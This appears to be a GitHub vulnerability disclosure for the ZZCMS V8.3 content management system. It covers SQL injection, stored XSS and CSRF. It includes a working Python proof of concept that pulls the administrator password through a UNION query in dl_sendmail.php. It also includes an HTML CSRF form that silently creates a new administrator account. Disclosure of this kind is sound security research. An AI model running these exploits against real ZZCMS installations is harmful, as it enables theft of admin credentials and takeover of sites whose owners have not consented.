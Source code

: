 # ZZCMS V8.3

## 1. SQL Injection
 
#### dl/dl_sendmail.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/1.png)
According to the code, the SQL statement is submitted as a post, and there is no filtering in the middle, so there is SQL injection here.

#### POC：
```
import requests

url = "http://10.10.10.39:8080/dl/dl_sendmail.php"
cookies = {'UserName':'admin','PassWord':'21232f29*****801fc3'}
data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

q = requests.post(url,data,cookies=cookies)
q.encoding = 'utf-8'
print q.text
```

You can see that you have successfully obtained the administrator password.
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/2.png)


## 2. Stored XSS

#### /user/manage.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/3.png)
Keep going
#### /zt/show.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/4.png)
Stripfxg function is to restore the materialization. As you can see, there is a storage XSS vulnerability.

#### Enter XSS
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/5.png)
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/6.png)


## 3. CSRF
After the administrator logged in, open the following  page
poc：
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.10.39:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
